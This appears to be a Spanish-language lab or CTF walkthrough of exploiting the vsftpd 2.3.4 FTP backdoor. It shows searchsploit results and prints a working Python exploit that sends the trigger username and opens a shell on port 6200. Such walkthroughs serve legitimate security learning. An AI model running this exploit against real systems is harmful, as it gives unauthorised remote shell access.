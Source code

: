 
<br>
<br>
<hr>
<div style="position: relative;">
	<h1 id="Explotacion" style="text-align:center;">Explotación de Vulnerabilidades</h1>
</div>
<br>


<h2 id="Exploit">Buscando un Exploit para Servicio FTP</h2>

Recordemos que tenemos la versión del **servicio FTP** de la máquina víctima, por lo que podemos investigar si hay un exploit que nos sirva para vulnerar dicha máquina.
```bash
searchsploit vsftpd 2.3.4  
---------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                  |  Path
---------------------------------------------------------------------------------------------------------------- ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution                                                                       | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                                                          | unix/remote/17491.rb
---------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

<br>

<h3 id="PruebaExp">Probando Exploit: vsftpd 2.3.4 - Backdoor Command Execution</h3>

Encontramos un exploit creado en **Python**, vamos a analizarlo, utiliza el comando `searchsploit -x unix/remote/49757.py` para analizar el exploit:
```bash
signal(SIGINT, handler)
parser=argparse.ArgumentParser()
parser.add_argument("host", help="input the address of the vulnerable host", type=str)
args = parser.parse_args()
host = args.host
portFTP = 21 #if necessary edit this line

user="USER nergal:)"
password="PASS pass"

tn=Telnet(host, portFTP)
tn.read_until(b"(vsFTPd 2.3.4)") #if necessary, edit this line
tn.write(user.encode('ascii') + b"\n")
tn.read_until(b"password.") #if necessary, edit this line
tn.write(password.encode('ascii') + b"\n")

tn2=Telnet(host, 6200)
print('Success, shell opened')
print('Send `exit` to quit shell')
tn2.interact()
```

